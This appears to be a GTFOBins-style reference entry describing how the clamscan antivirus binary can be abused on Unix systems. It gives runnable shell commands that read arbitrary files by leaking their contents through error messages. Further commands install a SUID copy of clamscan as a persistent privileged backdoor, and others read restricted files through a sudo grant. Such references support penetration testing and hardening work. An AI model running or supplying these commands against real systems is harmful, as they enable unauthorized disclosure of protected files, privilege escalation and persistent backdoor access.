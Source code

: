 # GTFOBin: clamscan

Each line of the file is interpreted as a path and the content is leaked via error messages, thus this might not be suitable to read binary files. The output can optionally be cleaned using `sed`.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
TF=$(mktemp -d)
touch $TF/empty.yara
clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which clamscan) .

LFILE=file_to_read
TF=$(mktemp -d)
touch $TF/empty.yara
./clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
TF=$(mktemp -d)
touch $TF/empty.yara
sudo clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
```